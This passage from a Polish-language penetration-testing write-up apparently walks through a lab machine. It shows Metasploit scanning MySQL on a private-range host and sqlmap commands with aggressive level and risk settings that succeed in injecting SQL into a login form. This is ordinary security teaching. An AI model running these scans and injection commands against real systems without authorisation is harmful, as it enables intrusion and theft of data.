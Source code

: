 Widzimy **Apache** na 80 porcie, jest również **Mysql** na porcie **3306**. Niestety, nie wiadomo jaka to jest wersja. Skaner _mysql version_ niezbyt nam tutaj pomaga.
{: .text-justify}

```console
msf6 auxiliary(scanner/http/error_sql_injection) > use auxiliary/scanner/mysql/mysql_version
msf6 auxiliary(scanner/mysql/mysql_version) > run

[*] 172.16.1.238:3306     - 172.16.1.238:3306 is running MySQL, but responds with an error: \x04Host '172.16.1.10' is not allowed to connect to this MySQL server
[*] 172.16.1.238:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Podsumowując, ip z którego atakujemy to: **172.16.1.10**. Atakowana maszyna zaś ma ip **172.16.1.238**. Interesują nas porty **80** i **3306**.
{: .text-justify}

# Atak

```
http://172.16.1.238/
```
Ukazuje się nam panel z loginem i hasłem.

![login](/assets/images/hacking/2021/01/03.png)

Próby z łatwymi hasłami nie działają. Otwórzmy drugą konsolę i użyjmy do tego Sqlmap, bo możliwe, że Apache łączy się z **Mysql**em.
{: .text-justify}
```bash
# sqlmap --batch -a --forms --dbms=mysql -u "http://172.16.1.238/"
```

```
--batch - nie czeka na potwierdzenie wciśnięcia klawisza
-a próbuje wszystkiego
--forms - nie musimy podawać parametrów formularza, program automatycznie znajdzie
--dbms=mysql - bazy danych z rodziny Mysql
-u host
```

Niestety, **SQL Injection** się nie powiódł. Zwiększmy w _Sqlmap_ poziom ryzyka i przeszukiwania.
{: .text-justify}

```bash
# sqlmap --batch -a --level 5 --risk 3 --forms --dbms=mysql -u "http://172.16.1.238/"
```

Tym razem się udało.
